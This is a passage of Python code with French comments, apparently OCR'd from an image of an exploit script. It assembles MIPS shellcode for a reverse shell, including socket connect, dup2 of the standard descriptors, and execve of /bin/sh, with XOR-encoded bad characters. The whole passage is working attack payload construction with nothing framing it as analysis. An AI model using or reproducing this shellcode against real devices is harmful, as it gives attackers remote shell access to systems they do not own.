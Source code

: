 ```python

sc_first += (
    "\xaf\xae\xff\xe6"  # sw $t6, -26($sp)        ; sin_addr
    "\x27\xa5\xff\xe2"  # addiu $a1, $sp, -30     ; &sockaddr
    "\x24\x0c\xff\xef"  # li $t4, -17             ; Configuration
    "\x01\x80\x30\x27"  # nor $a2, $t4, $zero     ; $a2 = 16 (sizeof sockaddr)
    "\x24\x02\x10\x4a"  # li $v0, 4170            ; Syscall connect
    "\x01\x01\x01\x0c"  # syscall 0x40404         ; Se connecter
    "\x24\x11\xff\xfd"  # li $s1, -3              ; Configuration dup2
)

# Position calculée pour les bad characters dans le reverse shell
# Position: (15*6 + 6) /4 = 24 mots de 32 bits depuis le début
print("[+] Position des bad characters calculée: offset 24")

# Première donnée encodée du reverse shell
# Original: "\x02\x20\x88\x27" → Encodé avec XOR 99999999
sc_bad1 = "\x9b\xb9\x11\xbe"

# Partie intermédiaire du reverse shell
sc_mid = "\x8f\xa4\xff\xff"  # lw $a0, -1($sp) ; Charger fd socket

# Deuxième donnée encodée
# Original: "\x02\x20\x28\x21" → Encodé avec XOR 99999999  
sc_bad2 = "\x9b\xb9\xb1\xb8"

# Dernière partie du reverse shell - duplication des descripteurs et exec
sc_last = (
    "\x24\x02\x0f\xdf"  # li $v0, 4063            ; Syscall dup2
    "\x01\x01\x01\x0c"  # syscall 0x40404         ; dup2(socket, i)
    "\x24\x10\xff\xff"  # li $s0, -1              ; Compteur
    "\x22\x31\xff\xff"  # addi $s1, $s1, -1       ; Décrémenter
    "\x16\x30\xff\xfa"  # bne $s1, $s0, loop      ; Boucle pour stdin/stdout/stderr
    "\x28\x06\xff\xff"  # slti $a2, $zero, -1     ; $a2 = 0
    "\x3c\x0f\x2f\x2f"  # lui $t7, 0x2f2f         ; "/"
    "\x35\xef\x62\x69"  # ori $t7, $t7, 0x6269    ; "/bin"
    "\xaf\xaf\xff\xec"  # sw $t7, -20($sp)        ; Stocker "/bin"
    "\x3c\x0e\x6e\x2f"  # lui $t6, 0x6e2f         ; "n/"
    "\x35\xce\x73\x68"  # ori $t6, $t6, 0x7368    ; "sh"
    "\xaf\xae\xff\xf0"  # sw $t6, -16($sp)        ; Stocker "/sh"
    "\xaf\xa0\xff\xf4"  # sw $zero, -12($sp)      ; Null terminator
    "\x27\xa4\xff\xec"  # addiu $a0, $sp, -20     ; argv[0] = "/bin/sh"
    "\xaf\xa4\xff\xf8"  # sw $a0, -8($sp)         ; argv[0]
    "\xaf\xa0\xff\xfc"  # sw $zero, -4($sp)       ; argv[1] = NULL
    "\x27\xa5\xff\xf8"  # addiu $a1, $sp, -8      ; argv
    "\x24\x02\x0f\xab"  # li $v0, 4011            ; Syscall execve
    "\x01\x01\x01\x0c"  # syscall 0x40404         ; execve("/bin/sh", argv, NULL)
)

print("[+] Reverse shell configuré pour /bin/sh")

# =============================================================================
# ASSEMBLAGE FINAL DU SHELLCODE
# =============================================================================

print("[*] Assemblage du shellcode final...")

# Ordre d'exécution:
# 1. sc_encode    - Décode les bad characters
# 2. sc_fork1     - Première partie fork
# 3. sc_fork_bad  - Données fork encodées (seront décodées)
# 4. sc_fork2     - Deuxième partie fork
# 5. sc_first     - Début reverse shell
```